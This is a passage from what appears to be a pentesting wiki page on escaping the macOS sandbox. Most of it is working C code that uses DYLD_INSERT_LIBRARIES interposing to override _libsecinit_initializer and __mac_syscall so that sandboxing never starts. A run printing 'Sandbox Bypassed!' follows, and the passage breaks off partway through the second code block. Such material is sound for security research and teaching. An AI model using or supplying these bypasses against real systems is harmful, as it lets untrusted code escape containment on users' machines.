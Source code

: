 {% hint style="warning" %}
**Even with the Sandbox bypassed TCC** will ask the user if he wants to allow the process to read files from desktop
{% endhint %}

### Abusing other processes

If from then sandbox process you are able to **compromise other processes** running in less restrictive sandboxes (or none), you will be able to escape to their sandboxes:

{% content-ref url="../../../macos-proces-abuse/" %}
[macos-proces-abuse](../../../macos-proces-abuse/)
{% endcontent-ref %}

### Interposting Bypass

For more information about **Interposting** check:

{% content-ref url="../../../mac-os-architecture/macos-function-hooking.md" %}
[macos-function-hooking.md](../../../mac-os-architecture/macos-function-hooking.md)
{% endcontent-ref %}

#### Interpost `_libsecinit_initializer` to prevent the sandbox

```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>

void _libsecinit_initializer(void);

void overriden__libsecinit_initializer(void) {
    printf("_libsecinit_initializer called\n");
}

__attribute__((used, section("__DATA,__interpose"))) static struct {
	void (*overriden__libsecinit_initializer)(void);
	void (*_libsecinit_initializer)(void);
}
_libsecinit_initializer_interpose = {overriden__libsecinit_initializer, _libsecinit_initializer};
```

```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand
_libsecinit_initializer called
Sandbox Bypassed!
```

#### Interpost `__mac_syscall` to prevent the Sandbox

{% code title="interpose.c" %}
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>
#include <string.h>

// Forward Declaration
int __mac_syscall(const char *_policyname, int _call, void *_arg);

// Replacement function
int my_mac_syscall(const char *_policyname, int _call, void *_arg) {
    printf("__mac_syscall invoked. Policy: %s, Call: %d\n", _policyname, _call);
    if (strcmp(_policyname, "Sandbox") == 0 && _call == 0) {
        printf("Bypassing Sandbox initiation.\n");
        return 0; // pretend we did the job without actually calling __mac_syscall
```